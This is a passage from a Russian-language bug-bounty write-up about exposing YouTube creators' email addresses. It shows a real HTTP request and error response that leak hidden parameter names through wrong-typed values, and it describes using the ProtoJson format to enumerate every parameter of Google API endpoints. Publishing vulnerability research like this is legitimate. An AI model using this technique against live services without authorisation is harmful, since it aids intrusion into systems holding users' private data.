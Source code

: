 < Назад
Раскрытие адресов электронной почты авторов YouTube за вознаграждение в размере 20 тысяч долларов
2025-03-13


Некоторое время назад, экспериментируя с запросами к Google API, я обнаружил, что можно утечка всех параметров запроса в любой конечной точке Google API. Это было возможно, потому что по какой-то причине при отправке запроса с неправильным типом параметра возвращалась отладочная информация об этом параметре:

‎
Запрос

POST /youtubei/v1/browse HTTP/2
Host: youtubei.googleapis.com
Content-Type: application/json
Content-Length: 164

{
  "context": {
    "client": {
      "clientName": "WEB",
      "clientVersion": "2.20241101.01.00",
    }
  },
  "browseId": 1
}
На самом деле сервер ожидает, что browseId будет строкой, например "UCX6OQ3DkcsbYNE6H8uQQuVA"

‎

Ответ

HTTP/2 400 Bad Request
Content-Type: application/json; charset=UTF-8
Server: scaffolding on HTTPServer2

{
  "error": {
    "code": 400,
    "message": "Invalid value at 'browse_id' (TYPE_STRING), 1",
    "errors": [
      {
        "message": "Invalid value at 'browse_id' (TYPE_STRING), 1",
        "reason": "invalid"
      }
    ],
    "status": "INVALID_ARGUMENT",
    ...
  }
}
Хотя API YouTube обычно использует для веб-запросов формат JSON, он также поддерживает другой формат — ProtoJson, или application/json+protobuf


Это позволяет нам указывать значения параметров в массиве, а не по имени параметра, как в JSON. Мы можем злоупотребить этой логикой и указать неправильный тип параметра для всех параметров, даже не зная их названия, что приведёт к утечке информации обо всём возможном содержимом запроса.
